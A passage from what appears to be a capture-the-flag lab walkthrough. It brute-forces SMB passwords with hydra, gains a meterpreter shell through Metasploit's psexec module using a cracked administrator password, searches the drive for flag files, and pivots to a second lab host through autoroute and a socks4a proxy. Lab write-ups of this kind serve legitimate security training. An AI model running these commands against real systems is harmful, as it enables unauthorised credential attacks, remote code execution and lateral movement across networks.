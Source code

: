 Now, let's run the hydra tool for brute-forcing the SMB protocol to find the valid password of the provided users.

```shell
hydra 
-L 
users.txt 
-P 
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
<target_IP> 
smb
```

Now, we can use the Metasploit framework and run the psexec exploit module to gain the meterpreter shell using the administrator user valid password.

```shell
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser administrator
set SMBPass password1
exploit

getuid
sysinfo

shell
dir C:\ /s /b | findstr /i flag
# Searches for files and folders containing the word "flag" (case-insensitive) anywhere in their name across the entire C:\ drive.

# Now, let's ping to the second target and verify that it is reachable from the second machine.
# We can access the demo1.ine.local machine.
```

Here we need to perform pivoting by adding route from the Metasploit framework.
Let's add the route using the meterpreter session and identify the second machine service.

```shell
run autoroute -s <second_target_IP><netmask>
# This command is used in the Meterpreter session within the Metasploit Framework. It sets up a route through a compromised machine to access other networks that are not directly reachable from the attacker's machine.

# We have successfully added the route to access the demo1.ine.local machine.
```

Now, let's start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.
First start the socks4a server using the Metasploit module.

```shell
background
use auxiliary/server/socks_proxy
show options
set SRVPORT 9050
set VERSION 4a 
exploit
jobs
```
